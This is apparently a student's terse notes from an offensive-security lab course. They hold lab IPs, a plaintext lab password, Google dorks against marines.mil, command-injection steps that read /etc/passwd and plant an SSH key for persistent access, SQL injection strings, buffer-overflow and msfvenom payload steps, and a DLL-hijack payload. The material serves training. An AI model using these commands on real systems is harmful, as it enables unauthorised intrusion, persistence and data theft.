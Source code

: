 GREYMAN
student@10.50.39.46 9MaGX5PmoRtsLKk
http://10.50.20.250:8000/challenges

linops
10.50.36.67
winops
10.50.26.46
xfreerdp /u:student /v:10.50.26.46 /dynamic-resolution +glyph-cache +clipboard

DRY Run
10.50.34.92

Phase
1: Mission Definitin
2: recon
3: footprinting
4: Exploit
5: post exp
6: Doc misssoin

exploit-db.com
virustotal


# google hacking
site: marines.mil
site: marines.mil covid 19
site: marines.mil filetype:pdf "covid 19"

 
# Recon 
for i in {1..254} ;do (ping -c 1 192.168.1.$i | grep "bytes from" &) ;done

# Web Exploitation

-command injection
(home box)
  ssh-keygen -t rsa
  cat .ssh/id_rsa.pub
(Target)
  ; whoami
  ; cat /ect/passwd
  ; ls -la /var/www
  ; mkdir /var/www/.ssh
  ; echo "id_rsa.pub" > /var/www/.ssh/authorized_keys
  ; cat /var/www/.ssh/authorized_keys
(home)
  ssh www-data@10.50.31.75

  ls -la /var/www/html
  
# sql

mysql
show databases;
show tables from session;
select * from session.car;
use session;
select * from car;
describe car;
select * from car UNION select tireid,name,size,cost,1,2 FROM Tires;
select id FROM users WHERE name='tom'or 1='1' AND pass='tom' or 1='1'

text Box()
ram' OR 1='1

# Reverse Engineering


url()
category=1 or 1=1
UNION SELECT 1,table_name,3 FROM information_schema.tables

# DEV EXPLOIT
gdb 
wiremask 
look for off set for eip 
gdb pdisass main
env - gdb (file)
show env
unset env
run and crash the program
info proc map
find /b (start of heap), (end of stack), 0xff, 0xef
find jump to eip to jum esp
msfvenom -p linux/x86/exec CMD=ifconfig -b '\x00' -f python

!mona modules
!mona jmp -r esp -m
/.hidden/inventory.exe <<<$(./mybuff.py)

# priv escalation 
procmon
crl L
path containt dll
-p windows/exec CMD='cmd.exe /C "whoami" > C:\ p\whami.txt' -f dll > sspiclr dll

LINUX


dry run
file upload
/etc/host for another box
a' OR 1='1
find / -name hint* 2> /dev/null
